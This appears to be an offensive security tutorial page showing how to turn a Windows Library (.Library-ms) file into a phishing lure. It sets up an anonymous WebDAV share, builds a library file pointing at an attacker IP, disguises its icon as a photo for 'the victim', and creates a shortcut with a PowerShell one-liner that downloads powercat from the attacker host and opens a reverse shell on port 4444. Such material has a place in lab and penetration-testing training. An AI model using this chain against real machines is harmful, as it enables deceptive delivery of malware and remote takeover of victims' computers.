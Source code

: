 ```yaml
---
description: >-
  Windows Library Files are virtual containers used to connect users with data
  located in remote locations like web services or SMB shares.
---
```


# Windows Library Files

[Windows Library Files](https://learn.microsoft.com/en-us/windows/client-management/client-tools/windows-libraries) have a _**.Library-ms**_ extensions and are executed by double clicking on them.





##

## WebDAV

In order to share our malicious Windows Library file to the victim we will create a WebDAV share to host the staged payload.

{% embed url="https://learn.microsoft.com/en-us/iis/configuration/system.webserver/webdav/" %}

### Start WebDAV Server

```bash
──(env)─(kali㉿kali)-[~/web]
└─$ /home/kali/env/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/web/
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





## Create Windows Library File

We will create a new file on our Windows host and name it "**dog.Library-ms**".

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.5</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

Right now the icon is a little suspicious, let's change it to something else, like a photo.



## Customizing Library File



### Change Icon

```
<iconReference>imageres.dll, -1003</iconReference>
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Testing & Fixing Serialization&#x20;

We can test to see if it's working by double clicking our "dog" icon on the deskop.&#x20;

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption><p>As we see, our malicious Windows Library works! Listing or WebDAV server!</p></figcaption></figure>



### Re-open Visual Studio Code

We can see if the re-open "dog" that the code has been changed. This happens due to Windows trying to optimize the WebDAV communication with the client. So before we ship it off the the victim we have to make sure that we've fixed it and NOT OPENED it on our end.&#x20;

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Delete the serialized tag and fix the url tag with:

```
<url>http://192.168.119.2</url>
```





## Create Shortcut

We will create a shortcut on the Desktop. This shortcut will download powercat and open a reverse shell. Add the following by: Right-Click Desktop and select _New_ > _Shortcut._

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.5:8000/powercat.ps1'); powercat -c 192.168.119.5 -p 4444 -e powershell"
```

### Start Web Server

We will create a python web server to serve the powercat script.

```
kali@kali:~/beyond$ cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .

kali@kali:~/beyond$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

